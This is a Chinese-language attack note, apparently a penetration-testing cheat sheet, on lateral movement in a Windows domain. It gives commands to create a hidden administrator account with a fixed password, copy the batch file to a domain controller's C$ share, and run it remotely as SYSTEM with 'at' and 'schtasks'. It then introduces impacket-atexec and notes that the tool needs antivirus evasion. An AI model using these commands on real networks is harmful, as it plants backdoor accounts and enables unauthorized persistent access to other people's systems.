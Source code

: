 add.bat文件

```powershell
net user xiaojidong qwe123!@ /add

# 创建隐藏用户并添加到管理员组中
net user xiaojidong$ qwe123!@ /add
net localgroup administrators xiaojidong$ /add
```

```powershell
# 在桌面创建一个bat文件，不要在C盘路径创建，有可能需要域控权限
copy add.bat \\192.168.216.10\c$  # 将文件放入域控C盘下
# 创建任务
net time /domain
at \\192.168.216.10 21:11 c:\add.bat  # 执行add.abt 在21：11分  # 注意c:\的这个\必须要加

dir \\192.168.216.10 c$ # 查看C盘下面的文件
# 如果对方是windows>=2012，则用schtasks
# 如果没有链接成功，将ip地址换成计算机名

创建完任务后还要删除add.bat文件，不过执行命令未能删除

# 查看计划任务
at \\192.168.216.10


# 创建一个任务，然后去执行任务
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建 adduser 任务
# 会回显一个交互
schtasks /run /s 192.168.3.32 /tn adduser /i #运行 adduser 任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除 adduser 任务
```

## impacket-atexec

是第三方工具，有可能被杀掉，需要进行免杀

> Impacket 是一组用于处理网络协议的 Python 类。Impacket 专注于提供对数据包的低级编程访问，并为某些协议（例如 SMB1-3 和 MSRPC）提供协议实现本身。数据包可以从头开始构建，也可以从原始数据中解析出来，面向对象的 API 使处理深层协议变得简单

支持的协议

* 以太网，Linux“熟”捕获。
* IP、TCP、UDP、ICMP、IGMP、ARP。
* IPv4 和 IPv6 支持。
* NMB 和 SMB1、SMB2 和 SMB3（高级实现）。
* MSRPC 版本 5，通过不同的传输：TCP、SMB/TCP、SMB/NetBIOS 和 HTTP。
* 普通、NTLM 和 Kerberos 身份验证，使用密码/哈希/票证/密钥。
* 以下 MSRPC 接口的部分/完整实现：EPM、DTYPES、LSAD、LSAT、NRPC、RRP、SAMR、SRVS、WKST、SCMR、BKRP、DHCPM、EVEN6、MGMT、SASEC、TSCH、DCOM、WMI、OXABREF、NSPI、 OXNSPI。
* TDS (MSSQL) 和 LDAP 协议实现的部分内容。
